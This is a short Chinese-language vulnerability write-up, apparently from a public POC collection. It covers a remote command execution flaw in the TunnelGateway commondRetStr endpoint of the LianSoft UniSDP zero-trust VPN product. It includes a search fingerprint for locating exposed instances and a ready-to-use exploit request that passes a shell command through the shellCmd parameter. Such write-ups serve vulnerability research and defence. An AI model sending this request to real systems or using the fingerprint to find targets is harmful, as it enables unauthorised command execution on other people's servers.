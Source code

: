 # 

# 联软安界 UniSDP 软件定义边界系统 commondRetSt 命令执行漏洞

## 漏洞描述

联软安界UniSDP软件定义边界系统是基于零信任的下一代VPN，该系统2021.04.28版本中TunnelGateway某接口存在安全漏洞，漏洞允许攻击者将特制请求发送到服务器并远程命令执行。

## 漏洞影响

```
联软安界 UniSDP 软件定义边界系统
```

## 网络测绘

```
title="UniSSOView"
```

## 漏洞复现

登录页面

![image-20230314090312164](images/image-20230314090312164.png)

验证POC

```
POST /TunnelGateway/commondRetStr
  
shellCmd=id
```

![image-20230314090322883](images/image-20230314090322883.png)
